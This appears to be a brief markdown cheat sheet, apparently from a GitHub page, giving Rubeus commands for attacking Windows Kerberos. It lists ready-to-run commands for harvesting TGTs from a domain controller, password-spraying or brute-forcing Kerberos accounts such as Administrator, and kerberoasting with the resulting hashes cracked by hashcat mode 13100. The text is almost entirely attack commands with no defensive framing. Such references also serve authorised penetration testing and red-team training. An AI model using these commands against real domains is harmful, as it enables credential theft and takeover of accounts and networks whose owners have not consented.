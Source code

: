 ### harvest
- Gathers TGT flowing from a KDC every x interval.
```powershell
.\Rubeus.exe harvest /interval:30
```
### brute
- Used to bruteforce or password spray kerberos credentials.
```powershell
# password spray
.\Rubeus.exe brute [OPTIONS] /noticket
# [OPTIONS]
/password:Passw0rd!
/passwords:password.txt
/username:Administrator
/usernames:username.txt
```
### kerberoast
- Perform kerberoasting attack
```powershell
.\Rubeus.exe kerberoast /nowrap

# Hash can be cracked with
hashcat -m 13100 hash.txt pass.txt
```
